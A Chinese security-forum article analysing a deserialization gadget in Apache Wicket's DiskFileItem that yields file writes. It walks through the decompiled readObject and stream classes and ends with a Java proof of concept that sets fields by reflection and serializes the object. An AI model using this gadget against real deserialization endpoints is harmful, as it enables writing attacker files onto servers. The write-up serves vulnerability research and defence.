



# apache wicket 反序列化写文件-先知社区

> **来源**: https://xz.aliyun.com/news/17454  
> **文章ID**: 17454

---

**前言**  
Apache Wicket Utilities从多方面简化功能实现，含开发、安全等工具集，组合使用可使CRUD界面代码量减40%以上。

* 核心开发：自动化组件树管理，支持双向数据绑定。
* 安全防护：集成CSRF、XSS防护，支持自定义会话管理。
* 效率提升：提供AJAX支持，集成模板引擎。
* 扩展测试：适配Spring/Guice，有完整测试框架。
* 高级功能：优化SEO，管理多窗口会话。

其中org.apache.wicket.util.upload.DiskFileItem存在反序列化漏洞，导致文件写入

**分析**  
org.apache.wicket.util.upload.DiskFileItem#readObject

```
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        OutputStream output = this.getOutputStream();
        if (this.cachedContent != null) {
            output.write(this.cachedContent);
        } else {
            FileInputStream input = new FileInputStream(this.dfosFile);
            Streams.copy(input, output);
            Files.remove(this.dfosFile);
            this.dfosFile = null;
        }

        output.close();
        this.cachedContent = null;
    }
```

调用了output.write(this.cachedContent);this.cachedContent变量的值可以通过反射修改，重点看output对象的生成方式  
org.apache.wicket.util.upload.DiskFileItem#getOutputStream

```
    public OutputStream getOutputStream() throws IOException {
        if (this.dfos == null) {
            this.dfos = new DeferredFileOutputStream(this.sizeThreshold, new DeferredFileOutputStream.FileFactory() {
                public File createFile() {
                    return DiskFileItem.this.getTempFile();
                }
            });
        }

        return this.dfos;
    }
```

this.dfos如果为null的话，则初始化，或者这里可以提前反射修改，接着看write函数，dfos为DeferredFileOutputStream类型，所以这里从DeferredFileOutputStream中看，DeferredFileOutputStream又实现了抽象类ThresholdingOutputStream，最终write函数在ThresholdingOutputStream中  
org.apache.wicket.util.io.ThresholdingOutputStream#write(byte[])

```
    public void write(byte[] b) throws IOException {
        this.checkThreshold(b.length);
        this.getStream().write(b);
        this.written += (long)b.length;
    }
```

org.apache.wicket.util.io.ThresholdingOutputStream#checkThreshold

```
    protected void checkThreshold(int count) throws IOException {
        if (!this.thresholdExceeded && this.written + (long)count > (long)this.threshold) {
            this.thresholdReached();
            this.thresholdExceeded = true;
        }

    }
```

这个函数中，if条件可以通过反射修改相关变量进入，重点看org.apache.wicket.util.io.ThresholdingOutputStream#thresholdReached  


在org.apache.wicket.util.io.DeferredFileOutputStream#thresholdReached继承

```
    protected void thresholdReached() throws IOException {
        byte[] data = this.memoryOutputStream.toByteArray();
        if (this.outputFile == null) {
            this.outputFile = this.fileFactory.createFile();
        }

        FileOutputStream fos = new FileOutputStream(this.outputFile);
        fos.write(data);
        this.currentOutputStream = fos;
        this.memoryOutputStream = null;
    }
```

这里重点看org.apache.wicket.util.io.DeferredFileOutputStream.FileFactory#createFile，

```
    public interface FileFactory {
        File createFile();
    }
```

这是一个函数式接口，其具体实现在  
org.apache.wicket.util.upload.DiskFileItem#getOutputStream中

```
    public OutputStream getOutputStream() throws IOException {
        if (this.dfos == null) {
            this.dfos = new DeferredFileOutputStream(this.sizeThreshold, new DeferredFileOutputStream.FileFactory() {
                public File createFile() {
                    return DiskFileItem.this.getTempFile();
                }
            });
        }

        return this.dfos;
    }
```

跟进org.apache.wicket.util.upload.DiskFileItem#getTempFile

```
    protected File getTempFile() {
        if (this.tempFile == null) {
            File tempDir = this.repository;
            if (tempDir == null) {
                String systemTmp = null;

                try {
                    systemTmp = System.getProperty("java.io.tmpdir");
                } catch (SecurityException var4) {
                    throw new RuntimeException("Reading property java.io.tmpdir is not allowed for the current security settings. The repository location needs to be set manually, or upgrade permissions to allow reading the tmpdir property.");
                }

                tempDir = new File(systemTmp);
            }

            try {
                do {
                    String tempFileName = "upload_" + UID + "_" + getUniqueId() + ".tmp";
                    this.tempFile = new File(tempDir, tempFileName);
                } while(!this.tempFile.createNewFile());
            } catch (IOException e) {
                throw new RuntimeException("Could not create the temp file for upload: " + this.tempFile.getAbsolutePath(), e);
            }

            if (this.fileUploadCleaner != null) {
                this.fileUploadCleaner.track(this.tempFile, this);
            }
        }

        return this.tempFile;
    }
```

所以这里要设置repository的值  
接着回到org.apache.wicket.util.io.DeferredFileOutputStream#thresholdReached中

```
    protected void thresholdReached() throws IOException {
        byte[] data = this.memoryOutputStream.toByteArray();
        if (this.outputFile == null) {
            this.outputFile = this.fileFactory.createFile();
        }

        FileOutputStream fos = new FileOutputStream(this.outputFile);
        fos.write(data);
        this.currentOutputStream = fos;
        this.memoryOutputStream = null;
    }
```

这里data的值貌似也是可以通过反射修改

**POC**  
根据以上分析过程编写poc：

```
import org.apache.wicket.util.io.ByteArrayOutputStream;
import org.apache.wicket.util.io.DeferredFileOutputStream;
import org.apache.wicket.util.io.ThresholdingOutputStream;
import org.apache.wicket.util.upload.DiskFileItem;

import java.io.*;
import java.lang.reflect.Field;

public class Main {
    public static void main(String[] args) throws Exception {

        byte[] data = "test".getBytes();
        String repoPath = "C:\Users\test\Desktop\a";
        File repository = new File(repoPath);
        DiskFileItem diskFileItem = new DiskFileItem("", "", false, "", 0, repository, null);

        DeferredFileOutputStream dfos = new DeferredFileOutputStream(0, repository);

        Reflections.setFieldValue(diskFileItem, "dfos", dfos);
        Reflections.setFieldValue(diskFileItem, "cachedContent", data);

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("unser.bin"));
        objectOutputStream.writeObject(diskFileItem);
        objectOutputStream.close();
        new ObjectInputStream(new FileInputStream("unser.bin")).readObject();
        

    }
}
```



**总结**  
利用需要前提条件，需要知道目标的一个有效的物理路径，且写入文件名不可控  

